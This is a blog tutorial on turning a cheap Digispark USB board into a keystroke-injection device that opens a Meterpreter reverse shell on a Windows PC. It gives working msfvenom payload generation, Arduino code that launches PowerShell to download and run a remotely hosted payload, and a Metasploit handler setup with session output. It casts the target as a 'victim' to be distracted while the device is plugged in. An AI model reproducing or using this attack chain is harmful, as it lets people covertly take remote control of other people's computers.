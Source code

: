 ```yaml
---
title: "Digispark_ReverseShell"
date: 2018-01-20T17:03:46+01:00
draft: false
---
```


# Reverse Shell for 1,50€ - Digispark instead of USB Rubber Ducky

Some of you might already have heard of it: The [USB Rubber Ducky by Hak5](https://hakshop.com/products/usb-rubber-ducky-deluxe). A very special USB-Device: Not only a mass storage device but any usb input-device you want it to be. Because of this you can use it for some very nice ways to get your payload onto a victims PC.  The Rubber Ducky is freely programmable so there are no limits on what you can do with it. The only problem is the high (but reasonable) price of $45. In this tutorial I will show you how you can use the Digispark USB Deveoplment Board as a cheap alternative. As an example we will be creating a reverse shell, that will be launched when you plug the Digispark into a windows PC.

## You will need:

* [Digispark USB Development Board](http://digistump.com/products/1)
* [Kali Linux](https://www.kali.org/) with [Metasploid-Framework](https://www.metasploit.com/)

## Digispark USB Development Board

The Digispark from Digistump is a tiny, programmable micro-controller that can be programmed with the [Arduino-IDE](https://www.arduino.cc/en/main/software). The syntax is very similar to the one of Arduino-Boards. A tutorial on how to set the IDE up for the Digispark can be found here: [Connecting and Programming Your Digispark](http://digistump.com/wiki/digispark/tutorials/connecting)

I bought a bunch of Digisparks of eBay for little money. They aren't original  (you can tell from the "rev3" which was never released) but they still are fully functional and perfect for our purposes.

For a nice video to set the Digispark up, check out this [tutorial by Seytonic](https://www.youtube.com/watch?v=fGmGBa-4cYQ)

## Creating the Payload

First of all we  need to create the payload that will be deployed and executed by the Digispark on our target machine. We will use [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) for this.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.10 LPORT=4444 -f psh-cmd

You need to replace the LHOST parameter with you IP address. You also could use your domain and use the reverse shell even outside of your network.

Now... here we find the first difficulty. Unlike the Rubber Ducky which can use a SD-card of any size, the Digispark only has 6kb of internal memory and the library we are going to need to use the Digispark as a Keyboard itself has about 2,4kb.  So there is no space to place the payload directly on it.
To get our payload on the victim-PC we need to make it accessible on the web. We could use a local web-server, upload the plain payload to [pastebin](http://pastebin.com/) or just place it on our webspace.

## Programming The Digispark

After we've created the Payload we can start with programming the Digispark! Here we have to keep in mind that to program the Digispark you have to work with a US-Keyboard-Layout, this means you have to account for special characters and such if your keyboard layout is one of foreign origin.

The Sourcecode for the Digispark:

    #include "DigiKeyboard.h"

    /*  US-KEYBOARD-LAYOUT ONLY!!
    *
    *  still needs some testing... but should work
    *
    *  Made by _N0x
    *  Thanks to Alex (http://0xdeadcode.se/archives/581) for the idea of using a small powershell payload.
    */

    void setup() {
    // Adding some LED-effects just for fun ;)
    pinMode(1, OUTPUT);

    delay(100);
    // WIN+r, delete content, start powershell
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // WIN+r
    delay(100);
    DigiKeyboard.sendKeyStroke(KEY_DELETE); // Clean it up
    delay(50);
    DigiKeyboard.println("powershell");
    delay(500);

    // turn the LED on
    digitalWrite(1, HIGH);
    // $url = '...' --> URL to Payload
    DigiKeyboard.println("$url = 'LINK_TO_HOSTET_PAYLOAD'");
    delay(50);
    
    // $result = Invoke-WebRequest -Uri $url
    DigiKeyboard.println("$result = Invoke-WebRequest -Uri $url");
    delay(50);
    
    // powershell.exe -nop -e $result.content
    DigiKeyboard.println("powershell.exe -nop -e $result.content");

    // turn off the led if the payload is places and executed
    digitalWrite(1, LOW);

    delay(1500);
    DigiKeyboard.println("exit");
    }
    
    void loop() {
    // if done with the scripts LED starts blinking

    digitalWrite(1, HIGH);
    delay(150);
    
    digitalWrite(1, LOW);
    delay(500);
    
    }

In principle you can leave the script unchanged and only change the URL for the Payload, so that the Payload you chose can be downloaded. The Digispark should now be ready for use! Before you storm out and try to plug it into the next best USB-Port though, you should prepare Kali Linux so that your Reverse-Shell Session can be accessed directly and as soon as needed.

## Preparing MSFconsole

To prepare the receiving-end for the Reverse-Shell, open a Terminal on your Kali Linux system and start MSFconsole by entering

    root@kali:~# msfconsole

Then specify what exploit you want to use:

    msf > use exploit/multi/handler

Now there are still some parameters we have to determine:

    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.0.10
    LHOST => 10.0.0.10
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444

Replace the vlaue of LHOST with the IP/Domain you used when creating the payload with MSFconsole

To finish things off we have to tell our Console that it has to wait for a new session:

    msf exploit(handler) > exploit -z -j
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.0.0.10:4444 
    [*] Starting the payload handler...

Now it's done! You can search for the next best PC to test your Digispark out! After you plug your Digispark in a Powershell will be opened and then closed, within this timeframe you have to distract your victim, after your USB Dev. Board starts to blink fastly you know your script has been executed and you can unplug the Digispark. If everything went how it should've your console should display this:

    msf exploit(handler) > [*] Sending stage (957487 bytes) to 10.0.0.3
    [*] Meterpreter session 1 opened (10.0.0.10:4444 -> 10.0.0.3:49678) at 2017-02-06 20:25:36 +0100

At last you have to pin your session, like this:

    msf exploit(handler) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > 

And now: Congratulations! You now have a Reverse-Shell on your victims PC! With the command "help" you can see what you can do now.

Have fun, Good luck, Stay safe and don't let yourself get distracted by people with a Digispark! :D
